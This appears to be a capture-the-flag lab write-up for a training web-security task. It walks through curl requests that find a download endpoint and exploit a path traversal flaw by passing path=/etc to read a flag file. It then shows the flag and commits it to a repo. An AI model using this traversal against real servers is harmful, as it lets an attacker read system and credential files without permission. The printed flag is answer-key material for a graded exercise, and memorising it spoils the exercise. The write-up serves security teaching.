

# Task 0. File Hub

## **Task Description**

Your initial objective entails identifying the vulnerable endpoint and securing the flag located at /etc/0-flag.txt.

Target Machine: Cyber - WebSec 0x07 \
Main Endpoint: http://web0x07.hbtn/task0/list_file

Useful instructions:

1. Try to upload a file.
2. Check page source for evey endpoint.
3. Investigate links and how they are processed, and what parameters are accepted.
4. Experiment with altering the path and file names and check the result.

Repo:

GitHub repository: dlh-cyber_security \
Directory: web_application_security/0x07_file_inclusion \
File: 0-flag.txt


## **Solution**


- Start sandbox `cyber_websec_0x07`.
- Start openvpn.
- Put IP address of the sandbox in `/etc/hosts` file.
```bash
echo "10.42.227.159 web0x07.hbtn" | sudo tee -a /etc/hosts
sudo vim /etc/hosts
ping -c 2 web0x07.hbtn
```


Our objective is to identify the vulnerable endpoint, determine how file paths are processed, and retrieve `/etc/0-flag.txt`.


### Step 1: Inspect the main endpoint

Run this command in your lab terminal:

```bash
curl -i -sS http://web0x07.hbtn/task0/list_file
```

What we're looking for:

- HTTP response status and headers.
- HTML source, including forms, links, and JavaScript.
- File upload functionality.
- Parameters potentially controlling file paths or file retrieval.




```bash
curl -i -sS http://web0x07.hbtn/task0/list_file

HTTP/1.1 200 OK
Server: nginx/1.26.3
Date: Thu, 12 Nov 2026 18:11:34 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 881
Connection: keep-alive
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; font-src 'self';
Via: waitress
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-Xss-Protection: 1; mode=block

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>List of Files</title>
    <link rel="stylesheet" type="text/css" href="/static/css/style.css">
</head>
<body>
    <div class="outer-container">
        <div class="inner-container">
            
            <div class="container">
                <h1>0. List of Files in the Hub</h1>
                <div class="separator"></div>
                <ul>

                    <li>
                        <a href="download_file?filename=README.md&amp;path=.">
                            README.md
                        </a>
                    </li>

                </ul>
            </div>
        </div>
    </div>
</body>
</html>
```


### Step 2: Test for Path Traversal

The output reveals an interesting endpoint:

```
GET /task0/download_file?filename=README.md&path=.
```

It accepts two user-controlled parameters:

- `filename`: The file to download.
- `path`: The directory containing that file.

The `path=.` value suggests the application may construct a filesystem path using these parameters.

Potential vulnerability: Path Traversal (CWE-22), possibly allowing us to read files outside the intended directory.

Let's test whether the endpoint permits an absolute path.

Execute:

```bash
curl -i -sS 'http://web0x07.hbtn/task0/download_file?filename=0-flag.txt&path=/etc'
```

This attempts to retrieve:

```
/etc/0-flag.txt
```

```bash
curl -i -sS 'http://web0x07.hbtn/task0/download_file?filename=0-flag.txt&path=/etc'

HTTP/1.1 200 OK
Server: nginx/1.26.3
Date: Thu, 12 Nov 2026 18:20:00 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 40
Connection: keep-alive
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; font-src 'self';
Via: waitress
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-Xss-Protection: 1; mode=block

FLAG_0: 1871c80b1bc83b3b6f45582d53e5a840
```

## Step 3: Save the Flag

```bash
echo "1871c80b1bc83b3b6f45582d53e5a840" > 0-flag.txt
git add .
git commit -m "0-flag.txt"
git push
```
